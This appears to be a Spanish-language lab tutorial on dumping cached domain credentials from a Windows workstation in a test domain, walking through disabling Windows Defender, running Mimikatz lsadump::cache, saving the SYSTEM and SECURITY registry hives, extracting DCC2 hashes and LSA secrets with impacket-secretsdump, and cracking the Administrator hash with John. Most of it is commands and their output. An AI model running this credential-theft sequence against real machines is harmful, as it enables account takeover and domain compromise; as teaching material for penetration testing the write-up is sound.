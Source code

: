 ```yaml
---
icon: users-rectangle
---
```


# Volcado de credenciales de dominio cacheadas (mscash)

Imaginemos que tenemos un usuario local con privilegios de `administrador` como hemos visto anteriormente, estando en el equipo `Windows` podremos volcar las credenciales que fueron `cacheadas` en el sistema, estando con la sesion iniciada de forma local `.\santiago` en el `WS01` si no podemos obtener credenciales de las `logon sessions` por que no hay ninguna que nos interese y de la `SAM` no nos interesa por que solo son a nivel local y queremos a nivel de dominio, podremos realizar el volcado de credenciales `cacheadas` para ver si hay alguna registrada de algun usuario a nivel de dominio.

Utilizaremos `Mimikatz` en este caso, por lo que tendremos que descativar el antivirus ya que somos `administradores` locales, podremos hacerlo.

Una vez desactivado el `Windows Defender` ejeuctaremos `mimikatz` en un `PowerShell` como `Administrador`.

Para ello antes tendremos que ser `SYSTEM` por lo que haremos lo que hicimos anteriormente para suplantar su `token` de la siguiente forma:

```powershell
privilege::debug
token::elevate
```

Una vez ejecutado estos comandos, ahora si haremos lo siguiente:

```powershell
lsadump::cache
```

Info:

```
Domain : WS01
SysKey : c8125866b327df176940c9f2d6a48f5f

Local name : WS01 ( S-1-5-21-1345059704-770646112-4146140408 )
Domain name : CORP ( S-1-5-21-3352250647-938130414-2449934813 )
Domain FQDN : corp.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {61d93de2-3cd5-f57c-bb1a-61759861b280}
  [00] {61d93de2-3cd5-f57c-bb1a-61759861b280} 9ff21a12391e4572d34bcc2b9c41c89c572dcc27ac3d906f69db749f620da79d

* Iteration is set to default (10240)

[NL$1 - 20/01/2025 9:13:41]
RID       : 00000450 (1104)
User      : CORP\empleado1
MsCacheV2 : fda53d6158406f827388476bcbc97c37

[NL$2 - 19/01/2025 9:52:13]
RID       : 000001f4 (500)
User      : CORP\Administrator
MsCacheV2 : e1c8d7e26653ae629a74772a389cf7e6

[NL$3 - 12/01/2025 12:36:13]
RID       : 000004b9 (1209)
User      : CORP\annice.mable
MsCacheV2 : 77702054bffe13f7c5bbe919a228d985

[NL$4 - 12/01/2025 17:51:40]
RID       : 00000463 (1123)
User      : CORP\angelika.shelly
MsCacheV2 : 835512d4e4bb1d962c57d290eb99f670
```

Y con esto veremos que hemos obtenidos las credenciales de los usuarios que alguna vez en algun momento se han logeado en este equipo y podremos obtener ese `hash` que sera la contraseña del mismo, por ejemplo el del `Administrador` y vamos a `crackearlo` con `john` de la siguiente forma:

```shell
echo e1c8d7e26653ae629a74772a389cf7e6 > adminCache.hash
john --format=mscash2 adminCache.hash
```

Si realizamos esto, veremos que no nos lo consigue `crackear` por que le tenemos que dar un formato especifico al `hash`, por ello vamos a empezar por irnos a nuestro equipo de `Windows` y en la terminal de `PowerShell` vamos a volcar todas las ramas del registro y luego utilizar `impacket` en `kali`.

```powershell
cd .\Desktop
reg save hklm\system system.save
```

Y ahora volcaremos las credenciales `cacheadas` que no va a ser en la `SAM`, sera en la siguiente zona.

```powershell
reg save hklm\security security.save
```

Ahora estos 2 ficheros nos lo vamos a pasar al `kali` para poder extraer la informacion ahi.

```shell
impacket-secretsdump -system system.save -security security.save LOCAL
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-20 08:13:41)
CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-19 08:52:13)
CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af
[*] NL$KM 
 0000   5C B5 3B 8C D5 28 A0 C3  6A F2 57 A3 08 B6 F7 D4   \.;..(..j.W.....
 0010   E4 7D 11 84 8F 2C 98 2B  2D DD 06 7D 30 53 B4 23   .}...,.+-..}0S.#
 0020   4B 8D C7 7E 92 96 5B 48  67 29 99 50 C1 E4 27 A6   K..~..[Hg).P..'.
 0030   37 2C 9D 99 E8 FD 57 11  CC 44 47 ED 30 6F 96 00   7,....W..DG.0o..
NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
[*] Cleaning up...
```

Ahora vemos que nos extrae los mismo usuarios que vimos anteriormente, pero en este caso nos lo pone el `hash` en el formato que necesitamos para poder `crackearlo` correctamente, por lo que haremos lo siguiente:

```shell
nano adminCache.hash

#Dentro del nano
$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6
```

Lo guardamos y ahora lo vamos a `crackear`:

```shell
john --format=mscash2 adminCache.hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (mscash2, MS Cache Hash 2 (DCC2) [PBKDF2-SHA1 128/128 AVX 4x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Passw0rd         (?)     
1g 0:00:00:01 DONE 2/3 (2025-01-20 03:49) 0.7246g/s 4127p/s 4127c/s 4127C/s Stephani..Something
Use the "--show --format=mscash2" options to display all of the cracked passwords reliably
Session completed.
```

Vemos que lo hemos conseguido esta vez.

